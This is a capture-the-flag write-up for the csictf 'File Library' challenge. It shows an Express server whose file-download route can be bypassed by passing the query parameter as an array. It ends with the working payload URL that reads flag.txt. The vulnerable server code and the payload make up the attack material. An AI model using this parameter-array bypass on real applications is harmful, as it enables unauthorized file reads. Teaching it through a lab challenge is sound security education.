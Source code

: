 # File Library

Author: [roerohan](https://github.com/roerohan)

## Description

Express query parsing vulnerability.

## Requirements

- Express.js
- qs package used by Express.js

## Sources

- [server.js](./server.js)
- Deployed website using server.js

```
This is my file library. I don't have a lot of files, but I hope you like the ones I have!
```

## Exploit

This exploit is owing to the `qs` package used by `express` to parse `req.query`. You can send an array instead of a string through the GET params in the following manner:

```ja
/route?words[]=hello&words[]=world
```

This makes the `req.names` in the backend an array: `['hello', 'world']`.

```javascript
const express = require('express');
const fs = require('fs');

const app = express();

const PORT = process.env.PORT || 3000;

app.listen(PORT, () => {
    console.log(`Listening on port ${PORT}`);
});

app.get('/getFile', (req, res) => {
    const { file } = req.query;

    // If file name is undefined
    if (!file) {
        res.send(`file=${file}\nFilename not specified!`);
        return;
    }

    try {
        // If file name has characters like ' ', '/'
        if (file.includes(' ') || file.includes('/')) {
            res.send(`file=${file}\nInvalid filename!`);
            return;
        }
    } catch (err) {
        res.send('An error occured!');
        return;
    }

    // If the length of file is greater than 5
    if (file.length > 5) {
        res.send(`file=${file}\nFilename too large!`);
        return;
    }

    // Check if file type is allowed
    if (!allowedFileType(file)) {
        res.send(`File type not allowed`);
        return;
    }

    const temp = __dirname + '/' + file;

    // If there are multiple file names (comma separated), take the first one.
    const returnedFile = temp.split(',')[0];

    // Read file to check if file exists
    fs.readFile(returnedFile, (err) => {
        if (err) {
            if (err.code != 'ENOENT') console.log(err);
            res.send('An error occured!');
            return;
        }

        res.sendFile(returnedFile);
    });
});

app.get('/*', (req, res) => {
    res.sendFile(__dirname + '/index.html');
});

function allowedFileType(file) {
    const format = file.slice(file.indexOf('.') + 1);

    // Allow only `js` and `txt` files.
    if (format == 'js' || format == 'txt') {
        return true;
    }

    return false;
}
```

The `/getFile` route is meant to get you a file from the server. But there are certain restrictions. First, you can't have ` `s or `/`s in your file. This prevents path traversal to an extent. 
<br />

Then, it checks that the `file` parameter has a length of less than 5 characters. This will prevent you from accessing a file like `flag.txt`. Then, it checks if the file ends with `js` or `txt`, only then it will allow you to read that file. If all these are satisfied, a `temp` variable is created to get the absolute path in the directory. After that, it checks whether `temp` has `,`s in it, if yes, it takes the first value before the comma, so that it selects the first file if a user passes many comma-separated files.
<br />

So, if we pass `file[]=flag.txt`, it bypasses all the checks except the `allowedFileType()` check, since the length of the array is less than 5, and it does not have an element ` ` or `/`. Now, you can add 2 new elements to the array `.` and `txt`, to the `file` parameter. Then, `temp` becomes `${__dirname}flag.txt,.,txt`, but the `temp.split(',')[0]` takes care of that. Here's the final payload:

```
/getFile?file[]=flag.txt&file[]=.&file[]=txt
```

The flag is:

```
csictf{5h0uld_5tr1ng1fy_th3_p4r4ms}
```
